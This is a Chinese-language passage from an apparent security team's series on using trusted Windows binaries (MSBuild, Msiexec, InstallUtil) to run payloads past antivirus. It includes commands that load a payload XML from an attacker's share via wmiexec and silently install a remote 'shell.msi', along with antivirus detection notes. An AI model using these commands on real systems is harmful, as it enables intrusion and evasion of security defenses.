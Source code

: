 在本免杀专题34到专题63(已发布在我们团队的公众号"Tide安全团队"上)，共搜集了33个常见的白名单程序，并一一进行了分析和详细测试，本部分也是对这些已进行了测试的白名单程序进行简要汇总，详细测试过程可参考相应文章链接。

## MSBuild.exe

- 杀软行为检测：xml能免杀时不会触发杀软行为预警。

- 详细文章链接：[https://mp.weixin.qq.com/s/1WEglPXm1Q5n6T-c4OhhXA](https://mp.weixin.qq.com/s/1WEglPXm1Q5n6T-c4OhhXA)

Microsoft Build Engine是一个用于构建应用程序的平台，此引擎也被称为msbuild，它为项目文件提供一个XML模式，该模式控制构建平台如何处理和构建软件。Visual Studio使用MSBuild，但它不依赖于Visual Studio。通过在项目或解决方案文件中调用msbuild.exe，可以在未安装Visual Studio的环境中编译和生成程序。

- 执行方式：

msbuild.exe加载文件的方式有两种

```
1. 本地加载执行:
- %windir%\Microsoft.NET\Framework\v4.0.30319\msbuild.exe <folder_path_here>\msbuild_nps.xml

2. 远程文件执行:

wmiexec.py <USER>:'<PASS>'@<RHOST> cmd.exe /c start %windir%\Microsoft.NET\Framework\v4.0.30319\msbuild.exe \\<attackerip>\<share>\msbuild_nps.xml
```

## Msiexec.exe

- 杀软行为检测：执行时杀软行为预警

- 详细文章链接：[https://mp.weixin.qq.com/s/XPrBK1Yh5ggO-PeK85mqcg](https://mp.weixin.qq.com/s/XPrBK1Yh5ggO-PeK85mqcg)

看到msiexec可能还有点陌生，但说道.msi可能就比较熟悉了，在windows下很多软件安装就是.msi格式的。当Windows操作系统安装了Windows Installer引擎，而MSI软件包使用该引擎来 安装应用程序，解释包和安装产品的可执行程序就是我们这用到 的Msiexec.exe。

- 执行方式：

msi文件可以双击执行，也可以命令行静默执行，而且msiexec也同样支持远程下载功能，将msi文件上传到服务器，通过如下命令远程执行：
```
msiexec /q /i http://www.tidesec.com/shell/shell.msi
```

## InstallUtil.exe

- 杀软行为检测：360安全卫士会检测到InstallUtil.exe执行预警，360杀毒和火绒动态和静态均无预警。

- 详细文章链接：[https://mp.weixin.qq.com/s/gN2p3ZHODZFia2761BVSzg](https://mp.weixin.qq.com/s/gN2p3ZHODZFia2761BVSzg)

InstallUtil.exe算是免杀白名单里使用比较多的一个了，InstallUtil.exe可以用于安装有.NET开发的所有应用安装程序，如果要使用 .NET Framework 开发 Windows 服务，则可以使用installutil.exe命令行快速安装服务应用程序。

metasploit自带的evasion免杀模块，就提供了`windows/applocker_evasion_install_util`来直接创建InstallUtil.exe可加载的payload，详见远控免杀专题文章(4)-Evasion模块免杀(VT免杀率12/71):`https://mp.weixin.qq.com/s/YnnCM7W20xScv52k_ubxYQ`
